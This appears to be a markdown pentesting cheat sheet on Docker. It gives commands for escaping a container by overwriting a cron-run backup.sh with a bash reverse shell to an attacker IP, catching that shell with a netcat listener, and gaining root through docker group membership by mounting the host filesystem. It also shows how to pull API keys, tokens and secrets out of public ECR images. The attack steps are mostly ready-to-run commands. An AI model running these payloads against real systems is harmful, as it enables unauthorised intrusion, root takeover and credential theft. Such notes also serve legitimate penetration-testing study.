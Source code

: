 ```yaml
---
title: Docker Pentesting
desc: 
tags: [AWS, Container, Docker, Netcat, PrivEsc, Privilege]
alts: [Privilege-Escalation-Linux]
render_with_liquid: false
---
```


## 1. Basic Investigation

1. List All Images

    ```sh
    docker images
    ```

<br />

## 2. Escape from Container to Desired Machine

1. **Check if the Backup File like "backup.sh" Exists**

    ```sh
    cd /opt/backups
    ls
    ```

2. **Add Reverse Shell Payload to the Backup File**

    If you find the backup file and it's executed automatically at regular intervals by cron, inject the reverse shell payload to escape from the container shell.

    ```sh
    echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    # or
    printf '#!/bin/bash\nbash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' > backup.sh
    ```

3. **Open Listner for Waiting the Reverse Shell**

    Use "nc" command to open listener and wait for while running the previous script by cron.

    ```sh
    # In attacker machine, wait for the cron job execute the reverse shell
    nc -lvnp 4444
    ```

4. **Confirmation**

    If you found the computer's name changed, you gained the access to the desired machine successfully.

    ```sh
    user@realhost:~#
    ```

<br />

## 3. Root Privilege Escalation (Docker Group Required)

1. **Check if Current User Belongs to "docker" Group**

    ```sh
    groups
    ```

2. **Gain the Root Shell**

    ```sh
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```

<br />

## 4. Amazon Elastic Container Registry (ECR) Public Gallery

1. **Run the Docker Container**

    - **Retrieve a Container Image**

        ```sh
        docker pull public.ecr.aws/<registry-alias>/<repository>:latest
        ```

    - **Check if It was Pulled**

        ```sh
        docker images
        ```

    - **Run the Container and Interect with It**

        ```sh
        docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
        ```

2. **Get Sensitive Information in the Container**

    You may be able to get the interesting data like **api_key**.

    ```sh
    printenv
    ```

3. **Get Sensitive Information in Local Machine**

    - **Check the Container Config and Retrieve Sensitive Information**

        Process the following flows in your local machine.

        ```sh
        mkdir example
        cd example/
        docker save -o example.tar public.ecr.aws/<registry-alias>/<repository>:latest
        tar -xf example.tar

        # Config files
        cat manifest.json | jq
        cat f9ab.......json | jq

        # Also config file in each directory
        cd 2246f........../
        tar -xvf layer.tar

        # Get sensitive information
        grep -e 'token' -e 'secret' */*
        ```